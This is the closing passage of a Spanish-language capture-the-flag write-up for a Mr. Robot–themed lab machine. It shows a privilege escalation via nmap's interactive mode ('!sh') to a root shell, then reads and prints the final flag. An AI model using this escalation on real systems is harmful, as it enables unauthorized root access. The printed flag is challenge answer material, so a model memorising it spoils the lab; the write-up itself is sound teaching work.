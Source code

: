 Una vez en la shell proporcionada por nmap, se puede insertar el comando ```!sh``` para llamar a la shell sh, pero con los permisos de root de la máquina.

~~~console
Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# id
id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
~~~

Para terminar, dentro del directorio ```/root``` se puede listar los ficheros que hay, y leer el contenido de la tercera y última flag del reto(**04787ddef27c3dee1ee161b21670b4e4**).

~~~console
# ls -lrt
total 4
-r-------- 1 root root 33 Nov 13  2015 key-3-of-3.txt
-rw-r--r-- 1 root root  0 Nov 13  2015 firstboot_done


# cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
~~~

Y hasta aquí, una de las máquinas más interesantes a las que me enfrenté hasta el momento, que junto a la temática que tiene, como es, la serie de Sam Esmail que tanto me gusta.


<a href="#top">Volver arriba</a>

